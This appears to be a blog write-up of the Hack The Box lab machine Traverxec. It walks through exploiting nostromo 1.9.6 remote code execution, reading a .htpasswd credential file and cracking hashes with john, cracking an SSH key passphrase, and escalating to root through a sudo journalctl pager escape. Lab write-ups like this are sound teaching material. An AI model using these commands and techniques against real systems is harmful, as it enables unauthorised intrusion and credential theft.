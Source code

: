 ```yaml
---
layout: PostSimple
date: 2020-04-11
title:     "Hack The Box - Traverxec"
tags: ['linux','easy','john','sudo']
layout: PostSimple
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/1.png)

We are going to pwn Traverxec by jkr from Hack The Box. Getting User shell is fun and by using GTFOBins correctly we can get Root easily.


Link : <https://www.hackthebox.eu/home/machines/profile/217>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.18 (90%), Crestron XPanel control system (90%), Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP:

Looks like an normal webpage and There’s a contact form at the bottom of the page, I send some queries but it’s not doing anything. Also the nmap reveals its ``nostromo 1.9.6``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/2.png)

## Method 1 :

Found an exploit in metasploit 

> https://www.rapid7.com/db/modules/exploit/multi/http/nostromo_code_exec

So Lets fire up the metasploit and try to get the shell
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/3.png)

I got ``www--data``

## Method 2 (Without Metasploit)

> https://www.exploit-db.com/exploits/47837

```Usage: cve2019-16278.py <Target_IP> <Target_Port> <Command>```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/19.png)

Once I get into the machine I can't move to anyother dir so I tried to get a proper shell first.
```
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@traverxec:/usr/bin$ cd /var
cd /var
www-data@traverxec:/var$ 
```

While checking ``nostromo`` conf files found that ``.htpasswd`` are located in same dir.<br/>

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/5.png)

It gives me user ``david`` hash.<br/>
```
www-data@traverxec:/var/nostromo/conf$ cat /var/nostromo/conf/.htpasswd
cat /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

And I cracked it with john <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/6.1.png) ``Nowonly4me``<br/>

But I cant ``su david`` with that password. I can't access ``david`` home dir too.<br/>
```
www-data@traverxec:/home$ cd david
cd david
www-data@traverxec:/home/david$ ls
ls
ls: cannot open directory '.': Permission denied
www-data@traverxec:/home/david$ 
```
So I started checking anything else in ``nhttpd.conf`` and noted.

```
# HOMEDIRS [OPTIONAL]

homedirs			/home
homedirs_public		public_www
```

So I googled about ``nhttpd.conf``

>https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=nhttpd

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/7.png)

>http://10.10.10.165/~david/

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/8.png)<br/>
And that Document tell us that we can view them in the home directory as well as via HTTP.<br/>
We know that ``homedirs_public`` is ``public_www`` So I tried to view them in shell.

```
www-data@traverxec:/var/nostromo/conf$ ls ~david/public_www
ls ~david/public_www
index.html  protected-file-area

www-data@traverxec:/var/nostromo/conf$ ls ~david
ls ~david
ls: cannot open directory '/home/david': Permission denied

www-data@traverxec:/var/nostromo/conf$ ls ~david/public_www
ls ~david/public_www
index.html  protected-file-area

www-data@traverxec:/usr/bin$ ls ~david/public_www/protected-file-area
ls ~david/public_www/protected-file-area
backup-ssh-identity-files.tgz
```
There is Backup-SSH file, Lets download it to our machine using netcat.<br/>

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/20.png)

## Another Method to download the SSH backup file:

We know there is ``protected-file-area`` I tried to view them on my webpage.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/9.png)
`` david : Nowonly4me `` 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/10.png)

Downloaded that file and extracted on my machine.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/11.png)
We got ssh private key.<br/>

It ask for passphase so I tried to crack with ``john`` again. For that we need use ``ssh2john`` first.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/12.png)

Now we can use this with ``john``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/13.png) `` : hunter``

Got User Flag<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/14.png)

## Privilege Escalation:

There is a script located in the home directory.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/15.png)

While checking it , I found that its running ``journalctl`` as sudo.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/16.1.png)

>https://gtfobins.github.io/gtfobins/journalctl/

According to this ``journalctl`` we need to shrunk the terminal to two lines and then escaped via less.

So I copied the sudo line <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/16.png)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/17.png)

`` !/bin/sh ``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/18.png)

I'm Root !!






